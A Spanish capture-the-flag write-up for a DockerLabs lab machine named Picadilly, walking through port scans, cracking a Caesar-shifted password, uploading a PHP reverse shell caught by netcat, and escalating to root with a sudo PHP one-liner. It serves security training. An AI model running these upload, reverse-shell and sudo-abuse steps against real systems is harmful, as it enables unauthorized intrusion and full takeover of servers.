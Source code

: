 ```yaml
---
title: DockerLabas Writeuo Headless
published: true
---
```


![logo](../assets/images-Picadilly/logo.png)

-----------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:02 -03
Initiating ARP Ping Scan at 21:02
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 21:02, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:02
Scanning 10.88.0.2 [65535 ports]
Discovered open port 443/tcp on 10.88.0.2
Discovered open port 80/tcp on 10.88.0.2
Completed SYN Stealth Scan at 21:02, 0.86s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-07-24 21:02:18 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Como vemos encontramos el puerto 80 y 443 estos dos puertos tienen una pagina web
```bash
❯ nmap -p80,443 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:04 -03
Nmap scan report for 10.88.0.2
Host is up (0.000045s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Vamos a la pagina web por el puerto 80 donde tenemos capacidad de directory listing que tiene un recurso llamado backup.txt

![Pasted image 20240724210723.png](../assets/images-Picadilly/Picadilly1.png)

Este recurso vemos que hay una contraseña que esta en cifrado cesar 

![Pasted image 20240724210859.png](../assets/images-Picadilly/Picadilly2.png)

A esto lo podemos descifrar de la siguiente manera
```bash
❯ echo "hdvbfuadcb" | tr 'a-z' 'x-za-w'
easycrxazy
```
y si queremos practicar un poquito de scripting en bash podemos realizar el siguiente script, para probar todas las combinatorias de desplazamiento e ir viendo los mensajes desencriptados 


```bash
 encrypted_message="hdvbfuadcb" 
 for shift in {1..25}; do echo -n "Desplazamiento $shift: " echo "$encrypted_message" | tr $(echo {a..z} | sed -r 's/ //g') $(echo {a..z} | sed -r "s/ //g;s/(.{$shift})(.*)/\2\1/") 
done
```
Lo ejecutamos
```bash
❯ ./decrypt.sh
Desplazamiento 1: hdvbfuadcb
Desplazamiento 2: iewcgvbedc
Desplazamiento 3: jfxdhwcfed
Desplazamiento 4: kgyeixdgfe
Desplazamiento 5: lhzfjyehgf
Desplazamiento 6: miagkzfihg
Desplazamiento 7: njbhlagjih
Desplazamiento 8: okcimbhkji
Desplazamiento 9: pldjncilkj
Desplazamiento 10: qmekodjmlk
Desplazamiento 11: rnflpeknml
Desplazamiento 12: sogmqflonm
Desplazamiento 13: tphnrgmpon
Desplazamiento 14: uqioshnqpo
Desplazamiento 15: vrjptiorqp
Desplazamiento 16: wskqujpsrq
Desplazamiento 17: xtlrvkqtsr
Desplazamiento 18: yumswlruts
Desplazamiento 19: zvntxmsvut
Desplazamiento 20: awouyntwvu
Desplazamiento 21: bxpvzouxwv
Desplazamiento 22: cyqwapvyxw
Desplazamiento 23: dzrxbqwzyx
Desplazamiento 24: easycrxazy
Desplazamiento 25: fbtzdsybaz
```
Veremos si esta contraseña va en la otra pagina web que corre por el puerto 443, pero como vemos no hay pagina de login pero si de subida de archivos 

![Pasted image 20240724215121.png](../assets/images-Picadilly/Picadilly3.png)

Probaremos esta subida de archivo para ver si nos deja subir un php malicioso que nos otorgue una reverse shell o nos permita ejecutar comando, veremos que nos reporta whatweb sobre esta pagina


```bash
❯ whatweb https://10.88.0.2:443
https://10.88.0.2:443 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.88.0.2], Title[Picadilly]
```
Vemos que nos descubre gran cosa por lo que procedemos a subir un php malicioso que nos otorgue  una reverse shell, vamos a github y descargamos [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) y lo editamos con nuestra Ip y puerto de escucha

![Pasted image 20240724221912.png](../assets/images-Picadilly/Picadilly4.png)

ahora subimos el archivo y nos ponemos en escucha por el puerto 443

![Pasted image 20240724222013.png](../assets/images-Picadilly/Picadilly5.png)

Vemos que el archivo se sube pero no, nos lo interpreta por lo tanto probamos si es que hay una ruta llamda uploads, vemos que efectivamente si existe

![Pasted image 20240724222923.png](../assets/images-Picadilly/Picadilly6.png)

Una vez que clickeamos el archivo que subimos vermos que nos otorga una reverse shell


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.10.111] from (UNKNOWN) [10.88.0.2] 51338
Linux eae50915364f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 01:28:47 up  2:02,  0 user,  load average: 0.12, 0.35, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
ahora hacemos un tratamiento de la tty
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eae50915364f:/$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

#### Privelege Escalation
Tenemos el usuario mateo y como de antes desciframos su contraseña vamos a pivotar a este usuario
```bash
www-data@eae50915364f:/home$ ls
mateo
```
A la contraseña debemos hacerle un pequeño cambio, esto tienen que hacerlo con pura intuicion
```bash
www-data@eae50915364f:/home$ su mateo
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo  
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo 
Password: 
mateo@eae50915364f:/home$ 
```
Ahora veremeos como hacemos para escalar a root

### Root
Vemos que tenemos capacidad para ejecutar el comando php como sudo, y a esto lo vamos a estar ejecutando como root
```bash
mateo@eae50915364f:/home$ id
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo@eae50915364f:/home$ sudo -l 
Matching Defaults entries for mateo on eae50915364f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on eae50915364f:
    (ALL) NOPASSWD: /usr/bin/php
mateo@eae50915364f:/home$ 
```
Si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) vemos que podemos escribir el siguiente comando para darnos una bash como root
![Pasted image 20240724224506.png](../assets/images-Picadilly/Picdailly7.png)
entonces ejecutamos este comando que va a crear una variable CMD lo que va hacer es que vale /bin/bash luego ejecutando el privilegio sudo va hacer una llamada a nivel de sistema a esta variable CMD
```bash
mateo@eae50915364f:/home$ CMD="/bin/bash"
sudo php -r "system('$CMD');"
root@eae50915364f:/home# whoami
root
root@eae50915364f:/home# 
```
